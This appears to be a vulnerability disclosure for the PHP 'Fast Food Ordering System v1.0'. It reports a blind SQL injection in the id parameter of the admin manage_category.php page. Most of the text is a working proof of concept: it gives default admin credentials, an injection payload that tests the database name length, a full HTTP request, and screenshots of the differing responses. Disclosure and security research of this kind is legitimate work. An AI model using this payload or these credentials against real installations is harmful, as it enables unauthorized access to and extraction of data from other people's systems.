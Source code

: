 # Fast Food Ordering System v1.0 by oretnom23 has SQL injection

The password for the backend login account is: admin/admin123

vendors: https://www.sourcecodester.com/php/15366/fast-food-ordering-system-phpoop-free-source-code.html

Vulnerability File: /ffos/admin/categories/manage_category.php?id=

Vulnerability location: /ffos/admin/categories/manage_category.php?id=, id

Current database name: ffos_db,length is 7

[+] Payload: /ffos/admin/categories/manage_category.php?id=6%27%20and%20length(database())%20=7--+ // Leak place ---> id


```sql
GET /ffos/admin/categories/manage_category.php?id=6%27%20and%20length(database())%20=7--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=rlr2a917ahfp4mc52mm9a7kvvm
Connection: close
```

When length (database ()) = 6, Content-Length: 2421
![image](https://user-images.githubusercontent.com/54017627/171351135-dcf725c0-30b6-4e95-9f54-bbd110f4067d.png)

![image](https://user-images.githubusercontent.com/54017627/171351115-c90af390-1d36-4e61-bd1d-2bde4a6fa610.png)

When length (database ()) = 7, Content-Length: 2561
![image](https://user-images.githubusercontent.com/54017627/171351190-1342fd39-23bc-4f89-9685-8a35d7a856b4.png)

![image](https://user-images.githubusercontent.com/54017627/171351019-6451e120-7073-4b8c-bad4-d5041e848521.png)
